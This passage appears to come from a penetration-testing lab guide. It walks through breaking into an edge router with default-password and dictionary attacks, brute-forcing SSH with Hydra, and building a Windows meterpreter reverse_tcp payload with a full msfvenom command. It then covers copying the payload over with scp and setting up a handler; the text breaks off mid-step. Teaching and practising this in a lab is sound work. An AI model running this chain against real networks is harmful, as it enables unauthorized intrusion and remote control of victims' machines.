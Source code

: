 This is one of the most important units in this book, as this allows you to defeat [NAT](https://www.comptia.org/content/guides/what-is-network-address-translation) and is a culmination of all of the previous exercises.

**Before proceeding, do exercise 2 in the READme.md. This will greatly help you when trying to use a dictionary attack.**

The main chain of attack is the following.

1. Figure out the brand of router that they were running to try a list of default passwords.
2. If (1) fails, do steps 3-6
3. Intercept a packet going to the Edge Router.
4. Figure out where people could input their passwords.
5. Use either a python program or some other thing (like Burp Suite, or ZAP) that could quickly implement passwords, as well.
6. Then, go and get the router password and log in.

Part One of getting into the router is complete. We now begin part 2, where we access the actual admin PC.

1. Run an nmap scan after configuring all of the ports to forward to 192.168.5.2 for the admin PC.
2. Realize that there is a process known as SSH running on the Admin PC. Therefore, our goal next is to get access using SSH. We then use: Hydra in order to brute force the login.
3. Then, again configure port forwarding to Port 22 in the Edge Router take: (10.2.51.7:22 -> 192.168.5.2:22)
4. Then, SSH into the computer. Then, open up another terminal to make a meterpreter payload. We will be using the `/windows/x64/meterpreter/reverse_tcp` payload, one of the most common payloads to go and log into a computer. In this case, we will be using port 443 in order to make the connection.
5. Type in the command `msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.2.51.7 LPORT=443 -f exe > [insert name here].exe`. The `-p` stands for payload (which is the windows reverse shell), and the `LHOST` and `LPORT` identify which hosts on the LAN to connect to, and what port that they connect to. In this case, it is our
6. Use `scp` to securely copy and paste the file to the admin PC.
7. (Optional) Check to see whether or not the file actually got copied using your SSH connection.

Now, part 2 of securely copying and pasting the file is complete. Now, part 3 is the fun part. 

1. First configure your Attack Router (the one that your PenTester PC is closest to connect to) to forward all inputs from 
. Use (multi/handler), and set the settings to LHOST and LPORT to the same nu
